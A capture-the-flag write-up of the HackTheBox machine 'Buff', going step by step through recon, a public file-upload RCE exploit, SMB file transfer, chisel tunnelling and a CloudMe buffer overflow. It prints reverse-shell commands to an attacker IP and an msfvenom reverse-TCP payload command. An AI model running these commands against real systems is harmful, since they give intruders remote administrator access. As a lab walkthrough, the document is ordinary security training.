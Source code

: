 # Buff [HTB](https://app.hackthebox.com/machines/263)
![buff-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/buff-01.png)


## Recon 

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 buff.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/ports-02.png)


Let's run a version detection scan againts this port:

```bash
nmap -p 8080 -sCV buff.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nmap-res-03.png)


We have the following:

+ An Apache/2.4.43 server on port 8080.


The nmap probing scripts have identified that the Apache server might have the `CONNECT` HTTP method enabled. This in effect allows the web server to act as a proxy server and make request to other target systems. I tried searching online for possible exploitaion strategies for this method, but I didn't find anything super clear, more theoretical stuff.


Based on the namp probing scripts we can also conclude that the Apache is powred by PHP/7.4.6, and that the target is probably running a Windows OS with an x64-bit architechture. 


### Apache port 8080


If we browse towards `http://buff.htb:8080/` we get the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/site-04.png)


The site seems to be offering gym services, there are four link at the top strip and a sign in form. Each of the four links leads to a different php script in the website's root directory. All of the scripts return read-only informational content, no place to input stuff as users. 


If click the `Contact` button though, we will get the following text:

![cms-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/cms-05.png)


At first I thought this was placed here by the creator of this box as some sort of troll, I didn't think this is an actual CMS. But I searched for this string on Google and I found an Unauthenticated Remote Code Execution exploit [here](https://www.exploit-db.com/exploits/48506). Wow..


In short, the `upload.php` doesn't check for a proper user session, which allows unauthiticated users to upload files. By reveiwing the source of `upload.php`, methods were identified for bypassing the MIME type checks, the file extensions checks, and the content-type checks. 


I tried to find a way to exploit this manaully, but the file upload requiers a dictionary with specific strucutre and objects for it to be accepted by the server. I decided to use the python exploit script instead of finding a way to pull this off with `curl` from the command-line.


After downloading the exploit I run and get a shell:


![shell-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/shell-06.png)


But I didn't like this shell, I wasn't able to perform simple tasks like changing directories. Instead, I decided to transfer a copy of `nc64.exe` over to the target using an SMB server. 


First, I grab a copy of `nc64.exe` to my working directory and start the SMB server on my Kali with:

```bash
impacket-smbserver -smb2support -debug buff .
```

Then, I connect to the SMB server from the target and copy the file over:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\nc64.exe nc.exe
```

![copy-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-07.png)


Now I start my local listener on my Kali with:

```bash
rlwrap nc -lnvp 9009
```

And coonect from the target using:

```cmd
nc.exe -e cmd.exe 10.10.14.54 9009
```

Which gives me a shell:


![nice-shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nice-shell-08.png)


## Privilege Escalation


After landing on the machine I start hunting down quick wins. I list any permissions we have using `whoami /priv` but we don't have any interesting permissions. I look for any stored credentials using `cmdkey /list` but there are none. I also check for the presence of `Always Installed Elevated` vulnerability but I dont find any. 


So I shift gears and start looking around the filesystem, I start with `shaun`'s home directory at `C:\Users\shaun`. Inside the `Downloads` folder I see something interesting:

![downloads-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/downloads-09.png)


I search for this executable online and I find a Buffer-Overflow exploit for it on [ExploitDB](https://www.exploit-db.com/exploits/48389). From what I understand `CloudMe Sync` is a synchronization application which syncs your local storage with the cloud storage, and it is listening on port 8888.


If we list the running processes on the target system with `netstat -ano` we can see the port is open:

![port-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/port-10.png)


The service must run as adminstrator, otherwise the exploit won't help us escalate privileges. I tried to list the running processes on the system in order to make sure this service is actually running as the administrator, but I was deinded access. Even though I wasn't able to make sure the service is running as the admin, I decided to bet on it. 


To try and exploit this, we first need to tunnel the service to our attack machine, I decided to use [chisel](https://github.com/jpillora/chisel).


I download an x64-bit executable chisel client for Windows using [this link](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz), I extract it with `gunzip -d <archive>`.


Then, I tried to transfer the file using a python web server and downloading it from the target using an `certutil` but I was denied access. I also tried other methods but they all failed. 


So I deicded to try the SMB method again, but when I connect to my share from the netcat shell there are issues establishing the connection. So I decided to use the previous shell we had, which did mange to get files via SMB.


I start the SMB server on my Kali same as before:

```bash
impacket-smbserver -smb2support -debug buff .
```

I connect to the share from the target and download the files:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\chisel.exe C:\Users\shaun\chisel.exe
```

![copy-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-11.png)


And here it is in `shaun`'s home folder:

![found-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/found-12.png)


Now we are ready to setup the tunnel. First, on the Kali, we need to start the server with:

```bash
chisel server -p 8001 --reverse
```

Then, from the target establish the tunnel using:

```cmd
chisel.exe client 10.10.14.54:8001 R:8001:127.0.0.1:8001
```

This will open port 8888 on our Kali, and transfer the traffic from target's localhost:8888 to it. 

![client-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/client-13.png)


After connecting the client, I receive the connetion on the server:

![server-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/server-14.png)


If we list the open ports on our Kali machine, we can see the cleint/server connection is established on port 8001, and the tunnel for port 8888 is open our Kali machine:

![port-14.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/netstat-14.5.png)


With the tunnel established we can try the [exploit](https://www.exploit-db.com/exploits/48389). After downloading it, we need to change the payload for the buffer-overflow, as currently it starts `calc.exe`, which is not super useful.


At first I tried an x64-bit payload, which faild. But an x84 bit payload with the below syntax works:
 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.54 LPORT=9999 -b '\x00\x0A\x0D' -f python
```

![venom-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/venom-15.png)


I copy the entier output and place it in the exploit:

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/exploit-16.png)


I also change the variable names below to match the output from msfvenom:

![vars-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/vars-17.png)


Now I start the local lisetner for the connection:

```bash
rlwrap nc -lnvp 9999
```

And I execute the buffer-opverflow exploit with:

```bash
python buffer-overflow.py
```

The exploit executes with no issues, and on my netcat listener I recieve a shell as the administrator:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/root-18.png)
